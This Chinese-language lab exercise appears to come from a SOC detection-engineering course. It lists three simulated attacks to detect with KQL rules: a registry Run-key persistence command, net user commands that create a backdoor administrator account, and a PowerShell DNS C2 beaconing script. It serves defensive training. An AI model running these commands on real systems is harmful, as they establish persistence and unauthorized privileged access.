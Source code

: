 ﻿# 模块 7 - 实验室 1 - 练习 4 - 连接检测建模

### 任务 1：了解攻击

在此练习中你不会执行任何操作。  本练习将解释你将执行的攻击。

攻击模式基于开源项目：https://github.com/redcanaryco/atomic-red-team

**备注** 某些设置仅出于实验室目的在较小的时间范围内触发。

#### 攻击 1 - 通过注册表项添加实现的持久性攻击。

此攻击从命令提示符运行：

```Command
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### 攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。  这会让攻击者能够使用有特权的其他帐户登录。

```Command
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

### 攻击 3 -DNS / C2 

此攻击将模拟命令和控制 (C2) 通信。

```PowerShell


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### 任务 2：了解检测建模。

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。  你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。

以下实验室在安装了 Defender for Endpoint Windows 主机和安装了 Sysmon 的 Windows 上运行相同的攻击。  构建检测时，你将看到每一种中数据规范化的差异。

有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，对分析规则进行其他更改。

# 转到练习 5
